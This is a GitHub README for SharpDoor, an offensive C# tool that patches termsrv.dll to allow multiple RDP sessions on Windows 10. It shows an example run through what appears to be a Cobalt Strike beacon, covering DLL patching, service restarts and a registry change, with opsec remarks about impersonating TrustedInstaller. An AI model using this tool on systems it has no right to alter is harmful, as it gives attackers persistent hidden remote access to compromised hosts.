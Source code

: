 # SharpDoor
SharpDoor is alternative RDPWrap written in C# to allowed multiple RDP (Remote Desktop) sessions by patching termsrv.dll file, for opsec considerations SharpDoor still using cmd.exe to run sc services to impersonating as trustedinstaller in the future will be avoiding cmd.exe usage, currently only support for Windows 10.

Author - Rahmat Nurfauzi ([@infosecn1nja](https://twitter.com/infosecn1nja))

## Example

```
beacon> execute-assembly /root/Toolkits/SharpBinaries/SharpDoor.exe
[*] Tasked beacon to run .NET program: SharpDoor.exe
[+] host called home, sent: 115243 bytes
[+] received output:
   _____ _                      _____
  / ____| |                    |  __ \
 | (___ | |__   __ _ _ __ _ __ | |  | | ___   ___  _ __
  \___ \| '_ \ / _` | '__| '_ \| |  | |/ _ \ / _ \| '__|
  ____) | | | | (_| | |  | |_) | |__| | (_) | (_) | |
 |_____/|_| |_|\__,_|_|  | .__/|_____/ \___/ \___/|_|
                         | |
  v1.0.0                 |_|

Allow Multiple RDP (Remote Desktop) Sessions By Patching termsrv.dll File

[*] Termsrv.dll Version : 10.0.17763.1
[*] Stop termservice

[+] received output:
[*] Backup termsrv.dll to C:\Users\Public\termsrv.dll

[*] Attempting to patch termsrv.dll

Original File Hash : 24ff1f89f2ec3f5561c34810c8328726
Patched File Hash : 28b1bd1254f7a90dd3f05db08deef67b

[*] C:\Windows\System32\termsrv.dll was patched sucessfully

[*] Start termservice
[*] Attempting To Change Registry Key fSingleSessionPerUser
[*] Done
```
